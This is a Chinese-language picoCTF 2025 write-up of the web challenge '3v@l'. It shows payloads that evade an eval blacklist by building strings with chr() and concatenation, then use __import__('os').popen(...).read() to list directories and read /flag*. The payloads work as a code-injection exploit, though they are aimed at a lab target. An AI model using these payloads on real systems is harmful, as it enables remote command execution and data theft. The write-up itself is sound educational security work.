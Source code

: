 ##### tags:`picoCTF_2025`

# picoCTF Web : 3v@l

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

## <span class="red">**題目**</span>

- ![image](https://hackmd.io/_uploads/BkLEHDV21l.png)
- ![image](https://hackmd.io/_uploads/B16qHP4h1e.png)

## <span class="red">**解題過程**</span>

1. **進到網頁後，先打開 DevTools 看看網頁有沒有甚麼線索。會發現有 html 的註解說明我黑名單會擋掉哪些資訊**

- ![image](https://hackmd.io/_uploads/rJ4WUv4h1x.png)

&emsp;

2. **根據題目給的提示，看似沒有檔 ```__import__``` 這種 function 。那就先試試看 ```importlib.__import__("\157\163")```，這等價於 ```importlib.__import__("os")```**

- ![image](https://hackmd.io/_uploads/rJmciPE31l.png)

3. **在 Execute 後網頁跳出了 Error ，訊息說明有擋掉某個內容(應該是有擋掉八進位編碼)，所以這裡嘗試看看用字元拼接的方式，像是把 os 拆成 ```chr(111)+chr(115)``` ， Execute 後會發現錯誤訊息變成 ```importlib``` 未定義**

- ![image](https://hackmd.io/_uploads/ryewsv421l.png)
- ![image](https://hackmd.io/_uploads/Sy5YawE3Je.png)
- ![image](https://hackmd.io/_uploads/By0O6v431g.png)

&emsp;

4. **所以猜測應該是沒有函式庫，這時候改一下 ```importlib``` 的部份，直接使用 python 內建的 ```__import__``` 函式，
payload 改為 ```__import__(chr(111) + chr(115))```，
其中 ```(chr(111) + chr(115))``` 是 ```os``` 的 ASCII**

- ![image](https://hackmd.io/_uploads/rkAAJ_E3ke.png)
- ![image](https://hackmd.io/_uploads/BkdkluE3ke.png)

&emsp;

5. **看起來是沒問題的，那就可以把後續的 system 也加進去 payload 裡看看效果， payload 會變成 
```__import__(chr(111) + chr(115)).system(chr(108) + chr(115))```
而 ```chr(108) + chr(115)``` 就是 ```ls``` 的 ASCII**

- ![image](https://hackmd.io/_uploads/rJpI-_4nJe.png)
- ![image](https://hackmd.io/_uploads/HJoc-uV21e.png)

&emsp;

6. **結果是 0 ，代表執行成功，但是沒有輸出，所以這裡不要用 system (因為 ```os.system()``` 不會顯示輸出)，改為使用 popen.read()， payload 變為
```__import__(chr(111) + chr(115)).popen(chr(108) + chr(115)).read()```**

- ![image](https://hackmd.io/_uploads/S1d4NdEhJe.png)
- ![image](https://hackmd.io/_uploads/Hy2XVd43ye.png)

7. **當前目錄沒有有用的資訊，所以去根目錄看看，將 payload 改為
```__import__(chr(111) + chr(115)).popen(chr(108) + chr(115) + chr(32) + chr(47)).read()```
其中 ```chr(32)``` 和 ```chr(47)``` 分別是 ```空格``` 和 ```/```**

- ![image](https://hackmd.io/_uploads/Hki8NdVnJx.png)
- ![image](https://hackmd.io/_uploads/SJsDVuNh1l.png)

&emsp;

8. **成功發現 flag.txt ，這時再把 flag 改為 
```__import__(chr(111) + chr(115)).popen(chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103)).read()```
其中 ```chr(99) + chr(97) + chr(116)``` 是 ```cat``` ， ```chr(47) + chr(102) + chr(108) + chr(97) + chr(103)``` 是 ```/flag```**

- ![image](https://hackmd.io/_uploads/SkqFHd4hkx.png)
- ![image](https://hackmd.io/_uploads/ryBcruE2yx.png)

&emsp;

9. **會發現沒有結果，所以應該跟前面的題目一樣存在權限問題，多加 sudo 試試看， payload 變為
```__import__(chr(111) + chr(115)).popen(chr(115) + chr(117) + chr(100) + chr(111) + chr(32) + chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103)).read()```
其中 ```chr(115) + chr(117) + chr(100) + chr(111) = sudo```，
但還是沒有讀到 flag**

- ![image](https://hackmd.io/_uploads/S1gz9OEhkl.png)
- ![image](https://hackmd.io/_uploads/SyIb9_4h1l.png)

&emsp;

10. **經過一段時間思考我才發現我在檔名的部分寫錯了，題目的 flag 檔檔名是 flag.txt ，所以我在 cat 時應該把副檔名也加上(或是用 ```*``` 匹配所有 flag 開頭的檔案) ，所以這裡先將 payload 改為沒有 sudo 的版本試試看
```__import__(chr(111) + chr(115)).popen(chr(99) + chr(97) + chr(116) + chr(32) + chr(47) + chr(102) + chr(108) + chr(97) + chr(103) + chr(42)).read()```
其中 ```chr(42) = *```
最後成功獲得 flag 而不需要超級使用者 (sudo) 的權限**

- ![image](https://hackmd.io/_uploads/Bk-o9erhye.png)
- ![image](https://hackmd.io/_uploads/H1eSieB2yl.png)

&emsp;

## <span class="red">**心得**</span>

1. **在解完題目後我有個疑問，如果可以使用字元拼接的方式，那我能不能直接用字母拼起來呢?所以我嘗試了
```__import__('o' + 's').popen('l' + 's').read()```**
這段 payload 先試試看能不能顯示當前目錄的內容，答案是可以的

- ![image](https://hackmd.io/_uploads/HJKHngBnkl.png)

&emsp;

2. **也因此，我將最終 payload 改為
```__import__('o' + 's').popen('ca' + 't ' + chr(47) + 'flag*').read()```
這樣寫目的是把 ```cat``` 指令拆分開(且在字母 t 後方補上 ```cat /flag*``` 之間的空格)，以及題目有擋 ```/``` ，所以必須要用 chr(47) 躲掉檢查。試試看能不能獲得 flag ，最終結果是可以**

- ![image](https://hackmd.io/_uploads/HkUYaer2Jx.png)
- ![image](https://hackmd.io/_uploads/SJG5agrn1l.png)